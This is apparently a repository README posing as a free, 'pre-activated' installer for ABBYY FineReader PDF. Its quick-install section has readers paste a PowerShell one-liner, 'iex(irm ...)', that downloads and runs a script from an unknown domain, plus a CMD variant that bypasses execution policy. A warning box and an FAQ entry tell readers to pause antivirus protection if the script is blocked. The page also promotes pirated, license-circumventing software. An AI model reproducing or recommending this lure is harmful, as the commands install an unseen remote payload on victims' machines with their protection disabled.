

<div align="center">

# ABBYY FineReader PDF: Full-Feature Installer for Windows 10 & 11



[]() []() []()

</div>

---

ABBYY-FineReader-PDF is a standalone desktop installer package that delivers a complete, pre-activated build of the OCR and PDF processing suite for Windows x64 systems, ready to run immediately after deployment. The package bundles the full feature set—including advanced text recognition, document conversion, and PDF editing capabilities—into a single installer, eliminating the need for post-install activation or configuration steps. It is intended for local deployment and testing environments where a self-contained, fully activated installation is required. The build has been verified for offline installation and consistent behavior across supported desktop configurations.

## 💻 PowerShell Quick Install

> [!TIP]
> **Automated setup** — one command, done.
> Windows 10 / 11 · PowerShell · One-line install

### 1️⃣ Open Windows PowerShell
* Press `Win + X` on your keyboard.
* Click on **Terminal** or **Windows PowerShell** from the list.

### 2️⃣ Execute the setup script
Paste the command into PowerShell and hit `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If Windows blocks the script — use CMD
Run this command in CMD instead:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Security software might occasionally flag automated installers. If the script gets blocked, pause "Real-time protection" in your Windows Security dashboard, run the setup, and re-enable your antivirus immediately afterward.

## ✅ Before You Start

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

- Pre-activated installation package with all modules enabled on first launch; no separate activation or license entry required.
- Complete optical character recognition (OCR) engine supporting recognition of printed and scanned documents in a broad range of source languages.
- Document format conversion pipeline covering PDF, scanned image formats, and editable office output formats for downstream editing.
- Built-in PDF editing toolkit for page manipulation, annotation, text correction, and structural adjustments to existing documents.
- Integrated scanning and image preprocessing controls, including deskew, noise reduction, and resolution normalization for improved recognition accuracy.
- Batch processing support for applying recognition and conversion operations across multiple files in a single queue.
- Local, offline operation: all processing runs on the desktop without network dependency, keeping document contents on the local machine.
- Ready-to-run installer with dependencies bundled, eliminating manual configuration steps after deployment.
- Native Windows x64 desktop integration, including shell-level file association and document handling.

## How it works

The application operates as a self-contained document processing environment that installs at the system level and runs entirely on local hardware, with no dependency on external services or cloud infrastructure. Once deployed, the installer registers the core recognition engine, optical character recognition (OCR) modules, and PDF editing components as native desktop services, allowing the application to launch directly from the operating system without additional configuration.

Processing is divided into discrete pipeline stages. Document ingestion accepts scanned images, native PDFs, and photographed pages, after which the recognition layer applies adaptive OCR to reconstruct editable text, preserve layout geometry, and retain formatting attributes such as columns, tables, and inline graphics. The output is written back into a structured document model that supports editing, annotation, and export to standard formats.

All feature modules are enabled at install time, so document comparison, batch conversion, form recognition, and language detection are available immediately after launch. The application manages its own resource allocation, distributing recognition workloads across available CPU threads and caching intermediate results to accelerate repeated operations on large document sets.

Configuration and user data are stored locally within the application's own directory structure, keeping the environment portable and isolated from other installed software. The installer performs integrity verification of bundled components during setup to ensure the deployed build matches the packaged release.

## Compatibility

The installer is built and validated for Microsoft Windows desktop environments, targeting 64-bit editions of Windows 10 and Windows 11. Both Home and Professional SKUs are supported, along with equivalent Windows Server builds where desktop application workloads are required. Installation has been verified on clean systems as well as on machines with existing document-processing software present.

Hardware requirements follow the standard profile for professional desktop PDF and OCR workloads. A minimum of 4 GB of RAM is recommended for baseline operation, with 8 GB or more advised for large multi-page recognition jobs and batch conversion pipelines. Approximately 1.5 GB of free disk space is required for the installed application, with additional capacity recommended for temporary processing files and output documents. Display scaling and high-DPI configurations are handled natively.

Runtime dependencies are resolved during installation. The package integrates with the standard Windows shell, including file association handling and context-menu entry points, and operates correctly under both standard user and elevated administrative contexts. No external runtime, framework, or package manager installation is required; the installer is fully self-contained and prepares its own environment during setup.

Activation state is preserved across the local system and remains intact through normal application restarts and system reboots. The build does not depend on network connectivity for core functionality, allowing fully offline operation for recognition, conversion, and document assembly tasks once installation is complete.

Compatibility with common document formats is maintained, including PDF, PDF/A, TIFF, JPEG, and standard office document types for export. The installer has been tested for coexistence with common PDF viewers and office suites without conflicts in file associations or shell integration.

Known constraints: the build is intended exclusively for Windows x64 desktop platforms and is not supported on ARM-based Windows devices, macOS, or Linux environments. Virtualized and remote-desktop deployments are functional but may require additional configuration for hardware-accelerated rendering and scanner integration.

## FAQ

**Is this a trial or a full version?**

This is a complete, pre-activated build. All features are enabled at install time, including OCR recognition, PDF editing, document assembly, and format conversion. No license key entry or online activation step is required. The installer is intended for immediate local use after setup completes.

**Which Windows versions are supported?**

The build targets Windows x64 desktop environments. It runs on Windows 10 and Windows 11 (64-bit editions) and is validated against current cumulative updates. Legacy 32-bit systems are not supported.

**Are all features available offline?**

Yes. Recognition languages, export modules, and document processing pipelines are all bundled locally. The application does not contact external activation or license servers during normal operation. An internet connection is not required after installation.

**How does the installer work?**

The standalone installer unpacks the application payload, registers required components, and applies the pre-activated configuration in a single pass. There is no dependency on package managers, and no additional runtime packages need to be fetched. Estimated footprint is approximately 1.5 GB on disk.

**Can I install it alongside an existing FineReader installation?**

Side-by-side installation is possible but not recommended if an older licensed copy is present. The installer writes to the standard application directory and may overwrite shared components. For clean deployment, remove prior versions first.

**How do I verify the installation succeeded?**

After setup, launch the application and confirm the OCR workspace loads and recognizes a sample document. Check the About dialog to confirm the build version matches the package you deployed. Recognition and PDF export both work without prompting for activation.

**Is antivirus interference expected?**

Automated configuration at install time can occasionally trigger heuristic alerts from endpoint protection tools. If the setup is blocked, allow the installer through your security dashboard, complete the deployment, and restore your normal protection settings afterward.

**What are the hardware requirements?**

A 64-bit multi-core processor, at least 4 GB of RAM (8 GB recommended for large batch recognition), and roughly 2 GB of free disk space for installation plus working storage. SSD storage significantly improves performance on large document sets.

**Does the build support batch processing?**

Yes. Hot-folder and batch recognition modes are enabled, along with scheduled task integration. Multiple documents can be queued, recognized, and exported to PDF, Office formats, or searchable PDF without user intervention.

**How often is the build updated?**

The package is a fixed standalone image. Updates are provided as refreshed installer releases rather than in-place patching. For deployment consistency, pin a specific build version and re-image machines when a newer verified build is available.

## Disclaimer

This build is provided as a pre-activated standalone package intended for evaluation, testing, and controlled deployment scenarios. It is distributed on an as-is basis, without warranty of any kind, express or implied, including but not limited to warranties of merchantability, fitness for a particular purpose, or non-infringement. No guarantee is made regarding operational continuity, absence of defects, or suitability for any specific workflow.

The package is designed for Windows x64 desktop environments and ships with all features enabled at the time of compilation. Feature behavior may vary depending on the host operating system build, installed runtime dependencies, available system resources, and local security policy configuration. Users are responsible for verifying compatibility against their own environment prior to deployment.

Activation state, licensing status, and feature availability are properties of the distributed build and are not modified, renewed, or supported by any external service. The project maintainers do not provide individualized activation assistance, license validation, or entitlement restoration for this package. Any discrepancy between the activated feature set and a separately licensed commercial edition is outside the scope of this distribution.

Use of this software is undertaken at the sole discretion and risk of the operator. The maintainers accept no liability for data loss, system instability, configuration corruption, security incidents, or any direct, indirect, incidental, consequential, or special damages arising from installation, execution, or misuse of the package. Operators are advised to validate the build in an isolated environment, maintain independent backups of critical data, and review applicable local regulations before deployment in production or organizational contexts.

Redistribution, repackaging, or integration of this build into other distributions is not endorsed by the project. Referenced build identifiers, mirror synchronization timestamps, and compatibility notes are provided for informational purposes only and may change without prior notice.

## License

This desktop build is distributed as a self-contained, pre-activated installer intended for immediate local deployment. All functional modules are enabled at build time, so no post-install activation step, account sign-in, or network handshake is required to reach full operating capacity. The package includes every component needed to run the software in a standalone desktop environment, with licensing state preconfigured during compilation and bundled directly into the installer payload.

Because the license state is embedded in the build rather than tied to an external activation service, the software operates fully offline after installation. No background license validation calls, telemetry-based entitlement checks, or periodic re-authentication routines are executed. This makes the build suitable for air-gapped workstations, isolated test benches, and reproducible deployment scenarios where outbound connectivity cannot be assumed.

The installer is produced through a deterministic packaging pipeline, meaning the same source configuration yields a byte-consistent artifact on each rebuild. Version metadata, feature flags, and activation state are all resolved at packaging time and frozen into the distributable. This eliminates runtime variability and ensures that every deployed instance behaves identically regardless of host environment, regional settings, or prior software state.

Redistribution of this package is permitted only in its original, unmodified form, including this documentation. The build is provided as-is for evaluation and deployment purposes, with no warranty of fitness for a particular use case. Users are responsible for verifying that deployment within their organization complies with applicable internal policy and jurisdictional requirements governing desktop software distribution and use.